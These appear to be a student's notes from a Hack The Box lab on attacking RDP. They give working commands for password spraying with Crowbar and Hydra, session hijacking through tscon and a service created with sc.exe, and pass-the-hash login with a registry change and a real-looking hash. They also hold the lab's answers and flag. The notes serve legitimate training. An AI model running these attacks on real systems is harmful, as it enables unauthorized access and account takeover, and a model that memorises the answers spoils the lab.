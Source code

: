 By default, RDP uses port `TCP/3389`. Using `Nmap`, we can identify the available RDP service on the target host:
```shell
nmap -Pn -p3389 192.168.2.143 
```

## Misconfigurations
Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.

One caveat on password guessing against Windows instances is that you should consider the client's password policy. In many cases, a user account will be locked or disabled after a certain number of failed login attempts. In this case, we can perform a specific password guessing technique called `Password Spraying`.

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service. As an example below, the password `password123` will be tested against a list of usernames in the `usernames.txt` file. The attack found the valid credentials as `administrator` : `password123` on the target RDP host.
#### Crowbar - RDP Password Spraying
```shell
> crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

#### Hydra - RDP Password Spraying
```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Protocol Specific Attacks
Let's imagine we successfully gain access to a machine and have an account with local administrator privileges. If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.

#### RDP Session Hijacking
As shown in the example below, we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

![[Pasted image 20251021143857.png]]

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user

 USERNAME     SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena      rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen        rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

To run the command, we can start the `sessionhijack` service :
```cmd-session
C:\htb> net start sessionhijack
```
Once the service is started, a new terminal with the `lewen` user session will appear.
_Note: This method no longer works on Server 2019._

## RDP Pass-the-Hash (PtH)
(See Password Attack Module)


### Questions 

1. What is the name of the file that was left on the Desktop? (Format example: filename.txt)
```txt
pentest-notes.txt
```
2.  Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol? 
````cmd-session
DisableRestrictedAdmin
````
3.  Connect via RDP with the Administrator account and submit the flag.txt as you answer.
```shell
On htb-rdp session CMD:
C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

Then retrieve Hash in pentest-notes.txt file and PtH RDP as Administrator:0E14B9D6330BF16C30B1924111104824

> xfreerdp  /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824  /drive:share,/workspace/CPTS/tmp


Open flag.txt:
HTB{RDP_P4$$_Th3_H4$#}
```


---

# Latest RDP Vulnerabilities 

In 2019, a critical vulnerability was published in the RDP (`TCP/3389`) service that also led to remote code execution (`RCE`) with the identifier [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708). This vulnerability is known as `BlueKeep`. It does not require prior access to the system to exploit the service for our purposes. However, the exploitation of this vulnerability led and still leads to many malware or ransomware attacks.